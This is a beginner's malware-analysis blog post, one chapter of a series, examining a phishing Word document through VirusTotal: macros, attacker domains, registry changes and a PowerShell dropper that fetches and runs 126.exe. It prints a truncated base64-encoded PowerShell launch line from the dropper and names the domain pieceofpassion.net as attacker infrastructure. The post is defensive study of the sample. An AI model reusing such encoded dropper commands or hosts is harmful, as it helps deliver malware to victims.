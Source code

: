 ```yaml
---
title: Initial analysis
---
```


The hero of my project was file PL_95054906484_68262954.doc which was attached in phishing mail received by my friend.

Because it is Microsoft Office Word file I also installed Microsoft Office on my Windows machine. What is more, based on my knowledge I assumed that I had to deal with Office macro and dropper written in PowerShell.  

For a good start, I used VirusTotal.

![](img/virustotal_1.png)

Most of the AV Engines detected threat. By analysing tags I confirmed my previous assumptions. Additionally tags showed the that code could be obfuscated.

![](img/virustotal_2.png)

In DETAILS I found metadata like author, time of file creation and software which was used for its creation.

![](img/virustotal_7.png)

But more interesting were information about the OLE objects:

![](img/virustotal_3.png)

![](img/virustotal_4.png)

And macros:

![](img/virustotal_5.png)

![](img/virustotal_6.png)

This also confirmed that the code was obfuscated in order to make analysis harder.

In RELATIONS I gained informations about attacker infrastructure.

There, I found three domains from which the dropper would probably try to download "proper malware".

![](img/virustotal_8.png)

pieceofpassion.net domain was registered by proxy which allow for anonimity. 

![](img/virustotal_9.png)

In BEHAVIOUR I found more specific information about what the malware does.

Domain requests:

![](img/virustotal_10.png)

Register modifications:

![](img/virustotal_11.png)

Created process:

![](img/virustotal_12.png)

PowerShell instructions:

![](img/virustotal_13.png)

This sequence was particularly interesting:

```powershell
    powershell -enco PAAjACAAaAB0AHQAcABzADoALwAvAHcAdwB3AC4AbQBpAGMAcgBvAHMAbwBmAHQALgBjAG8AbQAvACAAIwA+ACAAJABSAGUAZgBpAG4AZQBkAF8AUABsAGEAcwB0AGkAYwBfAFMAb…
```
                
That is PowerShell script encoded by Base64.

The 126.exe file is also worth noticing. It appeared in process tree. I supposed that it was the resulted file which had created by dropper module.

Created process and services:

![](img/virustotal_15.png)

Used DLL files:

![](img/virustotal_14.png)

### Summary

Based on information that I gained from VirusTotal I created small steps list which illustrates what the mysterious doc file could do:  

1.  After running a doc file in MS Word editor, the macro is processed. (Propably we have to allow macro execution)
2.  Macro spawns cmd process which starts encoded PowerShell script.
3.  PowerShell script downloads content of malware which is saved in 126.exe file.
4.  Then PowerShell script runs 126.exe and creates service sizetablet.exe. 

But what the file 126.exe and the created service really does? I wasn't able to affirm that in this stage of analysis but I thought that it could be a ransomware.

#### Table of content:

1.  [Environment configuration](/blog/first-steps-in-re/environment-configuration)
2.  [Initial analysis](/blog/first-steps-in-re/initial-analysis)
3.  [Macro analysis](/blog/first-steps-in-re/macro-analysis)
4.  [Dropper analysis](/blog/first-steps-in-re/dropper-analysis)
5.  [Detonation](/blog/first-steps-in-re/detonation)
7.  [Domain analysis](/blog/first-steps-in-re/domain-analysis)
8.  [Detonation ver. 2](/blog/first-steps-in-re/detonation-v2)
9.  [Summary](/blog/first-steps-in-re/summary)
